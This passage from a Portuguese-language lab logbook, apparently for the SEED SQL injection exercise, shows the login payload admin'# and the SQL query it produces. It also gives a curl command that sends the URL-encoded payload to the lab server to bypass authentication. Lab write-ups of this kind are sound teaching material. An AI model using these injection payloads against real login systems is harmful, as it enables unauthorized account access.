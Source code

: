 Com isto, o código executado foi:

```bash
SELECT ID, Name, EID, Salary, Birth, SSN, Address, Email, NickName, Password
FROM credential
WHERE Name = "admin'#"
```
<br>

O resultado foi o seguinte:<br>
![GotIn](img/logbook8/image-4.png)

## Task 2.2

Nesta task, o objetivo é o mesmo da `Task 2.1`, no entanto não podemos usar o website. Para isto, basta usar `curl` e fazer um pedido ao servidor. Como ' = %27 e # = %23, adaptando o comando, o resultado executado foi:<br><br>
`curl www.seed-server.com/unsafe_home.php?username=admin%27%23&Password=`
<br>

O resultado obtido foi o seguinte:<br>
![TerminalCurl](img/logbook8/image-5.png)
